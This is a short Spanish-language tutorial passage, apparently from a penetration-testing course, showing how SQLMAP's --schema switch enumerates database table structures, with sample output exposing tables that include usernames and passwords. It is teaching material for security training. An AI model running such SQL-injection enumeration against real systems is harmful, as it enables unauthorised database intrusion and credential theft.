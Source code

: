 # Advanced Database Enumeration

Ahora que hemos cubierto los conceptos básicos de la enumeración de la base de datos con SQLMAP, cubriremos técnicas más avanzadas para enumerar los datos de interés aún más en esta sección.

---

# **Enumeración de esquema de DB**

Si quisiéramos recuperar la estructura de todas las tablas para que podamos tener una visión general completa de la arquitectura de la base de datos, podríamos usar el interruptor`--schema`:

Enumeración avanzada de la base de datos

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+

```

---